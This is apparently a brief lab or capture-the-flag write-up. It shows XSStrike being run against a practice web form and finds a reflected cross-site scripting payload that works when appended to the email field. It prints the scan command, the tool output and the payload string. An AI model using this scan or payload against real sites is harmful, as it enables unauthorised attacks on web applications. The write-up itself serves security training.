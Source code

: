 *Hint: Try to manipulate URL parameters after a successful submission*

We will use XSS Strike to scan for vulnerabilities:

```
┌──(kali㉿kali)-[~/XSStrike]
└─$ python xsstrike.py -u "http://157.245.33.77:32431/?fullname=g&username=g&password=g&email=g%40g.com"

        XSStrike v3.1.5

[~] Checking for DOM vulnerabilities 
[+] WAF Status: Offline 
[!] Testing parameter: fullname 
[-] No reflection found 
[!] Testing parameter: username 
[-] No reflection found 
[!] Testing parameter: password 
[-] No reflection found 
[!] Testing parameter: email 
[!] Reflections found: 1 
[~] Analysing reflections 
[~] Generating payloads 
[!] Payloads generated: 3072 
------------------------------------------------------------
[+] Payload: <HtMl/+/ONPOInterEnter+=+(confirm)()%0dx> 
[!] Efficiency: 100 
[!] Confidence: 10 
[?] Would you like to continue scanning? [y/N] y
```

Payload found: `<HtMl/+/ONPOInterEnter+=+(confirm)()%0dx>`

We can find out what field is vulnerable by appending the payload to the input in each field until we get something.

When appended to the email in the email field, we get a reflection of our input.

Payload: `a@a.com<HtMl/+/ONPOInterEnter+=+(confirm)()%0dx>`

![](./attachments/Pasted%20image%2020220510174429.png)
